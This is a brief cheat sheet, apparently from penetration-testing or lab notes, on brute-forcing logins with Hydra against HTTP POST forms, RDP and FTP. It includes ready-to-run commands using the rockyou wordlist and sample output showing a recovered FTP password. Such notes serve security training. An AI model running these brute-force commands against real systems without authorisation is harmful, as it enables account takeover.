 ```yaml
---
title: Hydra
description: How to use hydra to bruteforce HTTP form, rdp, ...
---
```


# Hydra

## HTTP Forms

Debug with `Burpsuite` :

```bash
$ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra ...
```

### POST form

```bash
$ hydra -l admin -P /opt/rockyou.txt '10.10.103.103' http-post-form \
	-m '/login:username=^USER^&password=^PASS^&submit=Log+in:Login failed'
```

## RDP

```bash
$ hydra -t 1 -v -f -l 'administrator' -P /opt/rockyou.txt rdp://10.10.103.103
```

## FTP

```bash
$ hydra -L users.lst -P passwords.lst 'ftp://10.10.110.187'
[...]
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ftp://10.10.110.187:21/
[21][ftp] host: 10.10.110.187   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-13 19:47:34
```